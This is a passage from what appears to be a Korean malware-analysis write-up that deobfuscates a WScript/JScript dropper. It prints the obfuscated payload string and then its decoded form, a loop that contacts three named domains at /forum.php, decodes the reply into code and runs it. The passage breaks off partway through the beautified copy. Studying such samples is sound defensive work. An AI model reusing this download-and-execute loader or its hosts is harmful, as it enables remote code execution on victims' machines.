   

해당 경로에 Hv129167.tmp가 없으면 만들어 준다.

  

마지막 두줄에서 **FQ96**에 코드를 넘겨 Execute Code하는것을 볼 수 있다.

  

```javascript

FQ96[5 - 2](fW4('tast.u6s8 r=W=(= f2i0 0}) ;{e svlaarf Snyr4u3t e=r W{r)8e6(.hrcetsapco}n s;e)T(edxnte;s .i6f8 r(W( S;y)4e3s.lianfd e,x4O4fY(y\"+@\"\"=+iynYu4b4g+e\"e@x\"l,t h0h)e)?=\"=+-\'1p)h p{. mWuSrcorfi/p\'t+.]s5l5eDejp[(4282a2Z2+2\')/;/ :}p tetlhs\'e ,{\' TSEyG4\'3( n=e pSoy.4638.rrWe p{lyarcte (;\")@0\"3++y0Y74,42+(\"]@\"\"r,t\"s\"b)u;s \"v[a)r( gfnSi8r5t S=o tS.y)4(3m.ordenpalra.chet(a/M( \\=d {424}Y)y/ g;,) \'fPuTnTcHtLiMoXnr e(vSrde9S7.)2 L{M XrSeMt\'u(rtnc eSjtbrOientga.efrrCo.mtCphiarrcCSoWd e=( p6a8rrsWe I{n t)(3S d<9 75,51D0j)(+ 3e0l)i;h w} );;0 F=Q 9565[D3j] (;f]S\"8m5o)c(.)o;d -WdSncar-iepbt..wQwuwi\"t,(\")e;d .}j 4}o .ewlwswe\" ,{\" lWpS.cdrcilp-tm.esjlaeneypw(.2t2s2e2t2.)w;w w}\" [j D=5 54+8+a;Z}'))(fo32);

tcgmac = FQ96;

```

  

파라메타로 넘긴 코드는 다음과 같다.

  

```javascript

(function anonymous(

) {

Za84 = ["www.test.wynajem-lcd.pl","www.o4j.de","www.be-and-do.com"]; jD55 = 0; while (jD55 < 3) { Wr86 = WScript.CreateObject('MSXML2.ServerXMLHTTP'); yY44 = Math.random().toString()["substr"](2,70+30); try{ Wr86.open('GET', 'http://'+Za84[jD55]+'/forum.php'+"?ehhtlxeegbuni="+yY44, false); Wr86.send(); }catch(e){ return false; } if (Wr86.status === 200) { var Sy43 = Wr86.responseText; if ((Sy43.indexOf("@"+yY44+"@", 0))==-1) { WScript.sleep(22222); } else { Sy43 = Sy43.replace("@"+yY44+"@",""); var fS85 = Sy43.replace(/(\d{2})/g, function (Sd97) { return String.fromCharCode(parseInt(Sd97,10)+30); }); FQ96[3](fS85)(); WScript.Quit(); } } else { WScript.sleep(22222); } jD55++;}

})

```

  

해당코드 또한 [Online JavaScript Beautifier](https://beautifier.io/)를 통해 코드를 1차 정리 해 주겠다.

  

```javascript

(function anonymous() {

Za84 = ["www.test.wynajem-lcd.pl", "www.o4j.de", "www.be-and-do.com"];

jD55 = 0;

while (jD55 < 3) {

Wr86 = WScript.CreateObject('MSXML2.ServerXMLHTTP');

yY44 = Math.random().toString()["substr"](2, 70 + 30);

try {

Wr86.open('GET', 'http://' + Za84[jD55] + '/forum.php' + "?ehhtlxeegbuni=" + yY44, false);

Wr86.send();
```